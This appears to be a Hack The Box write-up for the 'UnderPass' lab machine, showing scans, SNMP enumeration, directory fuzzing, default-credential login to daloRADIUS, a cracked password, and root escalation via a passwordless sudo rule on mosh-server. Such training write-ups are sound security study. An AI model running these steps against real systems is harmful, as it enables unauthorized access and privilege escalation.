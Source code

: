 ```yaml
---
title: "UnderPass - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - linux
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## UnderPass
![](https://kar0nx.github.io/assets/images/writeup/456a4d2e52f182847fb0a2dba0420a44.png)
## Reconnaissance

IP: 10.10.11.48
## NMAP

```
nmap -T4 -p- -A 10.10.11.48
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-29 14:07 UTC
Nmap scan report for 10.10.11.48
Host is up (0.030s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
|_  256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 199/tcp)
HOP RTT      ADDRESS
1   29.87 ms 10.10.14.1
2   30.30 ms 10.10.11.48

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.51 seconds
```

Starting with nmap I found 2 open ports
## Website
### Site

Starting with http we can spot default apache page

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829160801.png)

Cannot find anything usefull so I run UDP scan and found SNMP

## NMAP, autorecon

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829162209.png)

```
nmap 10.10.11.48 --script=snmp* -sU
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-29 14:28 UTC
Stats: 0:02:43 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 17.20% done; ETC: 14:44 (0:13:09 remaining)
Nmap scan report for UnDerPass.htb (10.10.11.48)
Host is up (0.033s latency).
Not shown: 997 closed udp ports (port-unreach)
PORT     STATE         SERVICE
161/udp  open          snmp
| snmp-info: 
|   enterprise: net-snmp
|   engineIDFormat: unknown
|   engineIDData: c7ad5c4856d1cf6600000000
|   snmpEngineBoots: 31
|_  snmpEngineTime: 39m54s
| snmp-sysdescr: Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
|_  System uptime: 39m55.16s (239516 timeticks)
| snmp-brute: 
|_  public - Valid credentials
1812/udp open|filtered radius
1813/udp open|filtered radacct

Nmap done: 1 IP address (1 host up) scanned in 1053.22 seconds

```

## SNMP

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829163454.png)

I searched for "daloradius" in google and found that is RADIUS web management application for managing hotspots:
https://github.com/lirantal/daloradius

we can see on github that this app is written in PHP

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829165326.png)

I tried few combinations and /daloradius was working, so I used feroxbuster to scan for php extension:

```
feroxbuster -u http://10.10.11.48/daloradius -x php -s 200
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829165507.png)

And we found login panel:

```
http://10.10.11.48/daloradius/app/operators/login.php
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829165735.png)

 Tried default credentials and I manage to login

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829165921.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829165950.png)

In users we can see 1 user svcMosh and hash

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829170117.png)

## Gaining Access

cracked it with crackstation

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829170136.png)

underwaterfriends
and I was able to gain access via ssh

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829170238.png)

## Privilege Escalation

Starting with sudo -l we see that svcMosh can run sudo without password with /usr/bin/mosh-server 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829170324.png)

Searching google I found good article about priv esc
https://www.hackingdream.net/2020/03/linux-privilege-escalation-techniques.html

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829170552.png)

```
mosh --server="sudo /usr/bin/mosh-server" localhost
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829170626.png)

Now navigate to /root/root.txt

## Alternative to start

Use common.txt :D

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt:FUZZ -u http://10.10.11.48/FUZZ
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829171912.png)